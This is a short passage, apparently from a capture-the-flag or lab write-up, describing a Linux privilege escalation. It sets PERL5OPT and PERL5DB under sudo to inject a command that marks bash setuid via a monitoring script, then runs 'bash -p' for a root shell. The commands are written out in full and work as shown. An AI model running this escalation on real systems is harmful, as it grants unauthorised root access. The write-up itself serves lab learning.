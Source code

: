 ```bash
sudo PERL5OPT=-d PERL5DB='exec "chmod u+s /usr/bin/bash"' /opt/monitor.sh
```

This set the environnement variables PERL5OPT and PERL5DB under the sudo context, and call [monitor.sh](http://monitor.sh) that will then call xml_pp that will invoke perl

then get a root shell with :

```bash
bash -p
```

Get a root shell !
